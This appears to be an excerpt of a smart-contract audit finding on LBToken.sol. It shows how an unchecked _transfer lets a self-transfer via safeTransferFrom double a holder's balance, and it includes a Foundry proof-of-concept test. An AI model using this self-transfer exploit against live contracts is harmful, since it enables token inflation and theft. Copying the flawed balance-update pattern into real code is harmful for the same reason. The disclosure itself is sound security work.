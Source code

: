 ```solidity
File: LBToken.sol
176:     function _transfer(
177:         address _from,
178:         address _to,
179:         uint256 _id,
180:         uint256 _amount
181:     ) internal virtual {
182:         uint256 _fromBalance = _balances[_id][_from];
...
187:         uint256 _toBalance = _balances[_id][_to];
188: 
189:         unchecked {
190:             _balances[_id][_from] = _fromBalance - _amount;
191:             _balances[_id][_to] = _toBalance + _amount; //@audit : if _from == _to : rekt
192:         }
..
196:     }
```

Furthermore, the `safeTransferFrom` function has the `checkApproval` modifier which passes without any limit if `_owner == _spender` :

```solidity
File: LBToken.sol
32:     modifier checkApproval(address _from, address _spender) {
33:         if (!_isApprovedForAll(_from, _spender)) revert LBToken__SpenderNotApproved(_from, _spender);
34:         _;
35:     }
...
131:     function safeTransferFrom(
...
136:     ) public virtual override checkAddresses(_from, _to) checkApproval(_from, msg.sender) {
...
269:     function _isApprovedForAll(address _owner, address _spender) internal view virtual returns (bool) {
270:         return _owner == _spender || _spenderApprovals[_owner][_spender];
271:     }
```

### Proof of Concept

Add the following test to `LBToken.t.sol` (run it with `forge test --match-path test/LBToken.t.sol --match-test testSafeTransferFromOneself -vvvv`):

```solidity
    function testSafeTransferFromOneself() public {
        uint256 amountIn = 1e18;

        (uint256[] memory _ids, , , ) = addLiquidity(amountIn, ID_ONE, 5, 0);

        uint256 initialBalance = pair.balanceOf(DEV, _ids[0]);

        assertEq(initialBalance, 333333333333333333); // using hardcoded value to ease understanding

        pair.safeTransferFrom(DEV, DEV, _ids[0], initialBalance); //transfering to oneself
        uint256 rektBalance1 = pair.balanceOf(DEV, _ids[0]); //computing new balance
        assertEq(rektBalance1, 2 * initialBalance); // the new balance is twice the initial one
        assertEq(rektBalance1, 666666666666666666); // using hardcoded value to ease understanding
    }
```
